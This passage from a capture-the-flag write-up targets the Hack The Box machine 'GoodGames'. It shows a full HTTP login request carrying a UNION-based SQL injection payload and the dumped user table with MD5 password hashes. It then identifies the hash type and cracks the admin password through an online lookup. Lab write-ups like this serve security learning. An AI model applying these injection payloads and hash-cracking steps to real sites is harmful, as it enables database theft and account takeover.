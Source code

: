  ```HTML
<h2 class="h4">Welcome ADMINISTRABLE_ROLE_AUTHORIZATIONS:APPLICABLE_ROLES:CHARACTER_SETS:CHECK_CONSTRAINTS:COLLATIONS:COLLATION_CHARACTER_SET_APPLICABILITY:COLUMNS:COLUMNS_EXTENSIONS:COLUMN_PRIVILEGES:COLUMN_STATISTICS:ENABLED_ROLES:ENGINES:EVENTS:FILES:INNODB_BUFFER_PAGE:INNODB_BUFFER_PAGE_LRU:INNODB_BUFFER_POOL_STATS:INNODB_CACHED_INDEXES:INNODB_CMP:INNODB_CMPMEM:INNODB_CMPMEM_RESET:INNODB_CMP_PER_INDEX:INNODB_CMP_PER_INDEX_RESET:INNODB_CMP_RESET:INNODB_COLUMNS:INNODB_DATAFILES:INNODB_FIELDS:INNODB_FOREIGN:INNODB_FOREIGN_COLS:INNODB_FT_BEING_DELETED:INNODB_FT_CONFIG:INNODB_FT_DEFAULT_STOPWORD:INNODB_FT_DELETED:INNODB_FT_INDEX_CACHE:INNODB_FT_INDEX_TABLE:INNODB_INDEXES:INNODB_METRICS:INNODB_SESSION_TEMP_TABLESPACES:INNODB_TABLES:INNODB_TABLESPACES:INNODB_TABLESPACES_BRIEF:INNODB_TABLESTATS:INNODB_TEMP_TABLE_INFO:INNODB_TRX:INNODB_VIRTUAL:KEYWORDS:KEY_COLUMN_USAGE:OPTIMIZER_TRACE:PARAMETERS:PARTITIONS:PLUGINS:PROCESSLIST:PROFILING:REFERENTIAL_CONSTRAINTS:RESOURCE_GROUPS:ROLE_COLUMN_GRANTS:ROLE_ROUTINE_GRANTS:ROLE_TABLE_GRANTS:ROUTINES:SCHEMATA:SCHEMATA_EXTENSIONS:SCHEMA_PRIVILEGES:STATISTICS:ST_GEOMETRY_COLUMNS:ST_SPATIAL_REFERENCE_SYSTEMS:ST_UNITS_OF_MEASURE:TABLES:TABLESPACES:TABLESPACES_EXTENSIONS:TABLES_EXTENSIONS:TABLE_CONSTRAINTS:TABLE_CONSTRAINTS_EXTENSIONS:TABLE_PRIVILEGES:TRIGGERS:USER_ATTRIBUTES:USER_PRIVILEGES:VIEWS:VIEW_ROUTINE_USAGE:VIEW_TABLE_USAGE:blog:blog_comments:</h2>
 ```
* Final alteration to the SQL injection:
```HTML
POST /login HTTP/1.1
Host: goodgames.htb
Content-Length: 107
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://goodgames.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://goodgames.htb/signup
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=' union select 1,2,3,concat(id, ':', name, ':', email, ':', password) from user-- -&password=password
```
 * Results:
```HTML
<h2 class="h4">Welcome
	1:admin:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec
	2:takeabreath:email@email.com:5f4dcc3b5aa765d61d8327deb882cf993:takeabreath:&#39; union select 1,2,3,4--&#39;:5f4dcc3b5aa765d61d8327deb882cf99</h2>
```

### Admin credentials
| Username | E-mail               | Password hash                            |
|----------|----------------------|------------------------------------------|
|admin     | admin@goodgames.htb  | 2b22337f218b2d82dfc3b6f77e7cb8ec         |
 * ran the hash through `name-that-hash`:
```Console
2b22337f218b2d82dfc3b6f77e7cb8ec

Most Likely
MD5, HC: 0 JtR: raw-md5 Summary: Used for Linux Shadow files.
MD4, HC: 900 JtR: raw-md4
NTLM, HC: 1000 JtR: nt Summary: Often used in Windows Active Directory.
Domain Cached Credentials, HC: 1100 JtR: mscach
```
 * John doesn't return a result
 * Found the following result on [this md5 hash storage site](https://md5dz.wordpress.com/2014/01/16/md5dz-list62/)
   *  superadministrator:2b22337f218b2d82dfc3b6f77e7cb8ec